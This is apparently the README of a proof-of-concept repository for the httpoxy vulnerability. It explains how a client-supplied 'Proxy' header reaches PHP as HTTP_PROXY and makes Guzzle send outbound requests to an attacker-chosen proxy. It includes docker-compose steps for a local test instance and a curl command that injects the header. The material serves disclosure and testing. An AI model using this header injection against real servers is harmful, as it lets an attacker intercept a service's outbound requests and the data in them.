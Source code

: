 # PHP-FPM httpoxy POC

> Based on: https://github.com/httpoxy/php-fpm-httpoxy-poc

Some command-line HTTP clients support a set of environment variables to configure a proxy. These
are of the form `<protocol>_PROXY`; `HTTP_PROXY` is particularly noteworthy.

Separately, PHP takes user-supplied headers, and sets them as `HTTP_*` in the `$_SERVER` autoglobal.

## Steps

This is how the vulnerability works:

1. Do the usual PHP thing of exposing user-supplied headers as `$_SERVER['HTTP_*']`
2. Be using Guzzle from FPM or Apache (haven't tested with other SAPIs, assume some others possibly vulnerable too)
3. As an HTTP client, inject a `Proxy: my-malicious-service` header to any request made
4. Watch as Guzzle helpfully sends the request to the malicious proxy, supplied by the client

## Using this repo

Here is how you can see it in action:

1. Start a new test instance of the vulnerable script:

    ```sh
    docker-compose build
    docker-compose up
    ```

2. Fire a request at your vulnerable script, and watch the data arrive at the  proxy:

    ```sh
    curl -H 'Proxy: proxy:8182' 127.0.0.1:8081/guzzle.php
    ```




